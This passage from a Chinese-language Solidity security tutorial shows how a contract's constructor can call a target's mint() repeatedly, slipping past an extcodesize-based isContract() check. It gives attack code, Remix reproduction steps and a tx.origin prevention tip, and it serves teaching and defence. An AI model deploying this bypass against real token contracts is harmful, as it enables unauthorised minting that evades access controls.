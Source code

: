 

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 `1000` 枚代币：

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

> [!TIP]
>
> **构造函数参数**: 接收一个地址 `addr`，这个地址应该是之前部署的 `ContractCheck` 合约的地址。
>
> **构造函数的逻辑**:
>
> - `contractCheck` 被初始化为传入的地址。
> - 通过调用 `ContractCheck(addr).isContract(address(this))` 检查当前合约是否被识别为合约。在构造函数执行期间，`extcodesize` 为 0，因此 `isContract` 的值将为 `false`。
> - 由于此时 `isContract` 的值为 `false`，执行 `for` 循环，调用 `ContractCheck` 合约的 `mint` 函数 10 次。这是攻击的关键所在：在合约创建期间，`NotContract` 并不被 `ContractCheck` 识别为合约，因此能够成功铸造代币。

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## `Remix` 复现

1. 部署 `ContractCheck` 合约。
2. 部署 `NotContract` 合约，参数为 `ContractCheck` 合约地址。
3. 调用 `ContractCheck` 合约的 `balanceOf` 查看 `NotContract` 合约的代币余额为 `1000`，攻击成功。
4. 调用`NotContract` 合约的 `mint()` 函数，由于此时合约已经部署完成，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不相等，调用者为合约。
